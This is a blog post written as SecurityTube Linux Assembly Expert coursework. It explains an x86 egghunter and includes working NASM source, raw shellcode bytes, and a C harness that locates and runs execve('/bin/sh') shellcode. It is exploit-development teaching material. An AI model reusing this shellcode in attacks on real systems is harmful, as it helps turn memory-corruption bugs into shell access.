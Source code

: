 ```yaml
---
comments: true
date: 2014-04-09
layout: blog
category: blog
title: 'SLAE Assignment 3: EggHunter Demo'
summary: '3rd assignment of the SLAE'
image: /images/header_images/slaelogo.png
tags: [asm-x86,nasm,slae]
---
```


This is the third of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Study about EggHunter
	
  2. Make a working demo
	
  3. Make it configurable for different payload

An EggHunter is a small piece of code that search to a pattern (the egg) into the memory and once the pattern is found the shellcode will be executed. Tipically the egg is wrote twice, this to avoid the problem of finding an identical sequence in some other part of the memory.

The following is a PoC of an EggHunter:
   
	unsigned char egghunter[] = "egghunter shellcode"
	unsigned char shellcode[] = \
	"egg"
	"egg"
	"execve /bin/sh shellcode"

	int main(void){
		run(egghunter);
		return 0;
	}

This is the complete shellcode:

	;Description:	Assignment #3 (EggHunter, 34 bytes)
	;Shellcode:		\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0
	;Author: 		Paolo Stivanin <https://github.com/polslinux>
	;SLAE ID:		526

	global _start
	section .text
	_start:
		fldz
		fstenv [esp-0xc]
		pop eax
		lp1:
		inc eax
		xor ebx,ebx
		mov cl,2
		lp2:
		cmp dword [eax+ebx],0xddccbbaa
		jne lp1
		add ebx,4	;the egg must be found twice so i check eax and eax+4
		dec cl		;this is a counter to track how many times the egg has been found
		jnz lp2
		lea eax,[eax+8]	;if the egg has been found then jmp into the shellcode
		jmp eax

In this shellcode I didn't use the jmp-call-pop technique (which is more ids friendly) but instead I used two FPU instructions:

  * `fldz` to push +0.0 onto the FPU register stack
	
  * `fstenv [esp-0xc]` to save the current FPU operating environment at the specified memory location
	
  * and then `pop eax` . Now `eax` contains the address offldz

The following is the graph of the egghunter shellcode flow:

[![graph_assign3]({{ site.baseurl }}/images/2014/04/graph_assign3-1024x601.png)]({{ site.baseurl }}/images/2014/04/graph_assign3.png)

This is the C source file:

	/* Description:	EggHunter(execve(/bin/sh))
	* Author:	Paolo Stivanin <https://github.com/polslinux>
	* SLAE ID:	526
	*/

	#include <stdio.h>
	#include <string.h>

	unsigned char eggHunter[] = \
	"\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0";

	unsigned char execveShellcode[] = \
	"\xaa\xbb\xcc\xdd" //egg
	"\xaa\xbb\xcc\xdd" //egg
	"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

	int main(void){
		printf("EggHunter: %zu\n", strlen(eggHunter));
		printf("Shellcode: %zu\n", strlen(execveShellcode));
		int (*ret)() = (int(*)())eggHunter;
		ret();
		return 0;
	}

and the following is the result of the above snippet:

[![assign3]({{ site.baseurl }}/images/2014/04/assign3-1024x552.png)]({{ site.baseurl }}/images/2014/04/assign3.png)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
